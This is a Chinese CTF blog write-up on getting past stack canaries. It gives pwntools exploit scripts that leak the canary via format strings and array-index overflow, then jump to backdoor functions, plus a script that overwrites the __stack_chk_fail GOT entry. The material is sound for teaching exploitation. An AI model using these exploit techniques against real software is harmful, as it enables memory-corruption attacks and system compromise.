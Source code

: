 ```yaml
---
title: 「PWN」canary的绕过和泄露思路
tags: ['CTF', 'Pwn', ]
authors: [nova]


---
```


准备研究一下不同保护机制下的绕过，然后就准备进heap了

今天先来看一下Canary

<!--truncate-->

# Leak Canary

绕过Canary的主要一种方式就是泄露Canary的值，通常需要根据格式化字符串或者题目的一些输出来进行。

## bin

这是一题最基础的格式化字符串泄露Canary的题目

![pseudocode](https://cdn.ova.moe/img/image-20220116194731361.png)

![checksec](https://cdn.ova.moe/img/image-20220116195013327.png)

同时，有直接cat flag的后门函数，所以我们只需要泄露出canary的值，并溢出到后门函数就好。

通过GDB看到canary在字符串的第七个参数位置，直接任意地址读canary就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary) 
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

这是用到了数组下标溢出的知识，但本质也是一样的。

通过数组下标溢出修改它的上限判定，再泄露canary

（按理来说应该可以直接修改数组下标到返回地址，直接修改返回地址，但是还没搞出来，同样的脚本写着写着就segment fault了，再改回去也不行了，程序员的疑问+1）

给出两个exp

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```



# Hijack stack_chk_fail

修改`stack_chk_fail`函数的got表地址，让它执行时直接跳转到后门函数

这样再栈溢出就可以了

主要还是靠一手格式化字符串任意地址写(让人怀疑主题（)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> 顺带提一嘴，其实我对fmtstr的大数字覆盖还是挺搞不懂的，不过pwntools居然自带了fmtstr_payload来给你算，挺好的



# Brute-Force

Fork进程会让canary不变，可以爆破

~~还没有找到题目~~

